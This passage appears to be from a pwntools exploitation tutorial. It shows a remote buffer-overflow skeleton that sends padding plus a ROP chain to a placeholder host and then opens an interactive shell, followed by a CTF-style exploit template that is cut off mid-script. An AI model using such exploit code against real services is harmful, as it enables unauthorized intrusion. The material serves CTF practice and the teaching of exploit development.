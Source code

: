 ### Remote Exploitation

```python
from pwn import *

def remote_exploit():
    # Connect to remote service
    r = remote('target.example.com', 1337)
    
    # Handle banner/menu
    r.recvuntil(b'Enter choice: ')
    r.sendline(b'1')  # Select vulnerable option
    
    # Send exploit payload
    payload = build_payload()
    r.sendline(payload)
    
    # Get shell
    r.interactive()

def build_payload():
    # Payload construction logic
    offset = 72
    rop_chain = build_rop_chain()
    
    payload = b'A' * offset
    payload += rop_chain
    
    return payload
```

### Template Generation

```python
#!/usr/bin/env python3
# Generated with pwn template
from pwn import *

exe = context.binary = ELF('./challenge')
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
```